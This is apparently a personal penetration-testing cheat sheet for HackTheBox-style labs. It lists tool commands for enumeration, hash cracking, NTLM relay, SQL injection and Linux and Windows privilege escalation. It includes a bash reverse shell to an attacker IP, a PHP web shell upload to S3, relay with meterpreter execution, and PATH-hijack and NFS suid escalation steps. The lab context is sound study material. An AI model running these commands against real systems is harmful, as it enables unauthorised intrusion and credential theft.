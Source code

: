 # Tools
Helpful resources
 - https://gowthams.gitbook.io/bughunter-handbook/  (quick reference)
 - https://exploit-notes.hdks.org (quick reference) 
 - https://portswigger.net/web-security/dashboard
 - https://cloud.hacktricks.xyz/welcome/readme
 - https://gtfobins.github.io/gtfobins/vi/#sudo
### Metasploit
 - use `exploit/...`
 - `show options`
 - `run`
 - After u r in a shell, u can put it in background using `background`.
 - Upgrade most recently opened session `sessions -u -1`.


### ZAP
 - `Tools -> Spider`
 - `Analyze -> Scan Policy Manager` remove the things u do not want to scan for, like if no DB, why SQL scanning?
 - see https://tryhackme.com/room/dastzap for authenticated scan details.

### Redis
 - `sudo apt install redis-tools`
 - `redis-cli -h {target_IP}`
 - `info`
 - `select 0` select db with index number.
 - `keys *`, list keys.
 - `get <key>`.

### xfreerdp
 - `xfreerdp /u:administrator  /v:10.129.1.13` try to connect without password.

### gobuster
 - `gobuster dir -u 10.129.145.11 -w ~/SecLists/Discovery/Web-Content/common.txt`

### mongo
 - ./mongo mongodb://{target_IP}:27017
 - help
 - show dbs;
 - use <db_name>;
 - show collections;
 - db.<collection_name>.find().pretty();

### rsync
 - `rsync --list-only 10.129.204.156::` list directories.
 - `rsync --list-only 10.129.204.156::public` list files within directory, here named public.
 - `rsync {target_IP}::public/flag.txt flag.txt` bring remote flag.txt in my machine.

### Mysql
 - `mysql -h <ip> -u root` to login.
 - SHOW databases; : Prints out the databases we can access.
 - USE {database_name}; : Set to use the database named {database_name}.
 - SHOW tables; : Prints out the available tables inside the current database.
 - SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

### AWS s3
 - aws --endpoint=http://s3.thetoppers.htb s3 ls
 - aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
 - `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` to upload

### SSH tunneling
 - `ssh -L 1234:localhost:5432 christine@{target_IP}` locally we will be listening to 1234

### SMB
 - `smbclient \\\\10.10.10.131\\ADMIN$ -U Administrator` list.
 - `smbclient -L 10.129.27.203 -U administrator`.
 - `python psexec.py username:password@hostIP`.
 -  `psexec.py administrator@10.10.10.131`.

### John
 - `zip2john backup.zip > zip.hashes` dumps hashes to file.
 - `john zip.hashes` cracks the password.

### Hashcat
 - `hashcat -a 0 -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt` crack md5.
 - `hashcat -m 5600 hash.txt rockyou.txt` crach ntlm.

## Scanning
### nmap
 - `nmap --script=smb2-security-mode.nse -p445 <network>/24` find devices with smb signing disabled.
### Rustscan
 - `./rustscan -a 10.129.95.185 -r 1-65535` maybe use rustscan to find open ports first, and then use nmap for service detection and stuff.
 - `rustscan -a 10.10.10.161 -r 1-65535 | grep ^[0-9] |  cut -d '/' -f 1 | tr '\n' ','`, and then can use the ports in nmap
### sqlmap
 - `sqlmap -u "http://10.129.29.21/dashboard.php?search=%27" --cookie="PHPSESSID=f0mn05nbrdadh5164gavl9q4un"`

### Responder
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv` listen and respond for LLMNR poisioning.
 - `impacket-ntlmrelayx -tf targets.txt -smb2support` pass the hash, targets.txt has victims ip, `-i` to get interactive smb shell, `-e meterpreter.exe`.

### ldap
 - `ldapsearch -x -b "dc=htb,dc=local" -H ldap://10.10.10.161`, -x to check for anonymous login.

### Windapsearch
 - https://github.com/ropnop/windapsearch
 - Requirements to install `udo apt-get install libsasl2-dev python3-dev libldap2-dev libssl-dev `.
 - Enumerate user `python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 -U `.
 - `python3 windapsearch.py -d htb.local --dc-ip 10.10.10.161 --custom "objectClass=*"`.
## Upgrading shell with TTY session
 - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### bash
 - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`, reverse shell.
 - `sudo -l` check sudo permissions.

## Powershell
 - `Select-String -Path info.txt -Pattern "Money" -AllMatches -Context 4,3`, context 4 is 4 lines before match and 3 after match.
# Privilige escalation
### Linux
 - `id` see what groups we are a part of, google to see if these groups have any extra permissions.
 - `sudo -l` check sudo permissions.
 - `getcap -r / 2>/dev/null` to see the capabilities.
 - Check GTFO bin `https://gtfobins.github.io/`.
 - `find / -group <group_name> 2>/dev/null` to find file with certain group permissions.
 - `ls -al` to check if file has sudo permission.
 - If a file uses common binary insecurely, i.e. cat, wihtout fill path, we do create a new file in /tmp like `/tmp/cat`, the content of cat `/bin/sh`
 - and set `export PATH=/tmp:$PATH`, finally run the `suid` bit set file that runs `cat`, we might get it.
 - Scripts that check
  - LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/
  - LinEnum: https://github.com/rebootuser/LinEnum
  - LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
  - Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
  - Linux Priv Checker: https://github.com/linted/linuxprivchecker
 - network mound, if no_root_sqash present `showmount -e victimsIP` `mount -o rw ip:/victimdir local_dir/` make file with suid bit set in local_dir change owner to root run in victims machine.
 - Check for any cronjob, that we can manipulate.


`impacket-GetNPUsers htb.local/svc-alfresco --dc-ip 10.10.10.161 -no-pass
john hash.txt --fork=4 -w=/usr/share/wordlists/rockyou.txt
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`
### Windows
 - `whoami /priv` to see what priviliges you have.
 - See wierd folders and files.
 - `schtasks` in cmd or `ps` in powershell to see processes.
 - 
